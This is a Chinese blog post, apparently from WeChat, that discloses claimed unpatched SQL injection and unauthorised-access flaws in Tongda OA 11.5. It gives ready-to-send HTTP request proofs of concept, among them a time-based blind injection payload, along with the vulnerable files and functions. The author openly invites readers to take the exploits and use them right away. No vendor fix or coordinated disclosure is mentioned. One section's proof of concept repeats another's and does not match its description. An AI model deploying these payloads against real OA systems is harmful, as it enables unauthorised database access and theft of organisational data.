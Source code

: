 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lAm-gzqNguFXhSojFFQxDA)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqczeflvHvDexuf2BhBEBYlJCdjJS6aVZ0w6ooY5QwK27L2khaJWEOVdw2kunkBTviakCv6QeGxYjHg/640?wx_fmt=png)  

之前曝光过通达 OA 0day 我这里就不曝了，截止到发帖时，下面的漏洞都是未正式公开的。  
**影响范围:**  
我测试的是通达 OA11.5 版本，也就是 2020 年 04 月 17 日发布的，其他版未测，但我想也会有吧。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeicw9SWxPJYA0fdNG01pXlFmKK2CKcrP5hrYw4Jo7GrTjXAlLJQztYQw/640?wx_fmt=png)

  
HW 这几天看到大家对通达 OA 的热情度很高，正好今天有空，下载了一个通达 OA 11.5 版本下来做代码审计，通达 OA 的代码是加密的，所以需要一个 SeayDzend 工具解密，百度上就能找到。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqze7XgQDH4wzPeOlOfM9PvbrPNfON2AXJ6NANgjP8ShseA96aYicsJLBFg/640?wx_fmt=png)

  
解密后，对代码的各个模块都大致看了一下，很快就发现多处都存在 SQL 注入漏洞，仔细看了之前的曝光的文章，发现这些漏洞并未曝光，也未预警，也属于 0day 漏洞吧。  
不多说，直接上 POC，有需要的可以先拿到用了。  
**0x001 SQL 注入 POC:**

```
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/portal/home/
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Connection: keep-alive
Host: 192.168.43.169
Pragma: no-cache
X-Requested-With: XMLHttpRequest
Content-Length: 154
X-WVS-ID: Acunetix-Autologin/65535
Cache-Control: no-cache
Accept: */*
Origin: http://192.168.43.169
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

starttime=AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])---&endtime=1598918400&view=month&condition=1
```

```
GET /general/email/sentbox/get_index_data.php?asc=0&boxid=&boxname=sentbox&curnum=3&emailtype=ALLMAIL&keyword=sample%40email.tst&orderby=1&pagelimit=20&tag=×tamp=1598069133&total= HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169/
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqze2yAzOLh0FOkvosfiakQbba3Z25q5qBmDkfHLL9Sjh0yUt5YlIMIQvVw/640?wx_fmt=png)

  
漏洞文件：**webroot\general\appbuilder\modules\calendar\models\Calendar.php**。  
**get_callist_data 函数**接收传入的 begin_date 变量未经过滤直接拼接在查询语句中造成注入。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeDKkatI0iaBTU24z3IQzibMXXqUOKB6I5ncegro0emt4WEicebE0nS1fDA/640?wx_fmt=png)

  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
  
**0x002 SQL 注入 POC:**  
漏洞参数：orderby

```
GET /general/email/inbox/get_index_data.php?asc=0&boxid=&boxname=inbox&curnum=0&emailtype=ALLMAIL&keyword=&orderby=3--&pagelimit=10&tag=×tamp=1598069103&total= HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```

```
GET /general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2 HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeDg091gE75tECVbibE34IhgfVkjGCtbUNxoFicRavFE05tea3w2ibia3Raw/640?wx_fmt=png)

  
漏洞文件：**webroot\inc\utility_email.php，get_sentbox_data** 函数接收传入参数未过滤，直接拼接在 order by 后面了造成注入。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzehckfYRW7zz0ot4D1LZtWn4P6tSUY76OKf1aqMLnwBGSVng1vCOEI5Q/640?wx_fmt=png)

  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
**0x003 SQL 注入 POC:**  
漏洞参数：orderby

```
http://127.0.0.1/general/calendar/arrange/get_cal_list.php?starttime=1548058874&endtime=1597997506&view=agendaDay
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzePPkZibq0xSQS2eias6Z96ia1RAOWHeXN44p5npiazeNbKL0meNWaWjzmlA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeoWYBtVopj5cmicr8EOnQ9ynuFjPxbYcPp7P6RJfJMyH0j3J4mNUajww/640?wx_fmt=png)

  
漏洞文件：**webroot\inc\utility_email.php，get_email_data** 函数传入参数未过滤，直接拼接在 order by 后面了造成注入。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeX8FvlVwSgyG3xPsiaJGdfWrhaSaOeARhczPC64yMefet5Hep79vgnwA/640?wx_fmt=png)

  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
**0x004 SQL 注入 POC:**  
漏洞参数：id

```
GET /general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2 HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeyKO5AMreuTmE1WezwZMLcmorP61XtLqYiakP44Exm8oapECOR3u9z3A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzensMDET1UxFhvmibh55SFBJhdEZHFib0nHyPBaACfYibVszR2fcgQmdE9Q/640?wx_fmt=png)

  
漏洞文件：**webroot\general\appbuilder\modules\report\controllers\RepdetailController.php**，**actionEdit 函数**中存在 一个 $_GET["id"];  未经过滤，拼接到 SQL 查询中，造成了 SQL 注入。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeZicX69dWonCYQyLKwWZibBp4ew3FMPetbLBj6Hf3C8NUxCqAEztC739g/640?wx_fmt=png)

  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
**0x005 未授权访问:**  
未授权访问各种会议通知信息，POC 链接：

```
http://127.0.0.1/general/calendar/arrange/get_cal_list.php?starttime=1548058874&endtime=1597997506&view=agendaDay
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfzOpKyjk6fdIU0IUlDvqzeXTmMMxwAwFUlsrVgMIOg73mImFbJiar6CLYAmwbDJFLBgUcStC7kXxg/640?wx_fmt=png)  

**END.**

**欢迎转发~**

**欢迎关注~**

**欢迎点赞~**

![](https://mmbiz.qpic.cn/mmbiz_jpg/5u08OUQmyqfuiaa3cgiaOkcI5vVcZ3WNmgaNLTjw3ecUQWWfS1CUaKYuXeHzyHvT4zRVOLkfOV1YxZFpxGHxMQ5A/640?wx_fmt=jpeg)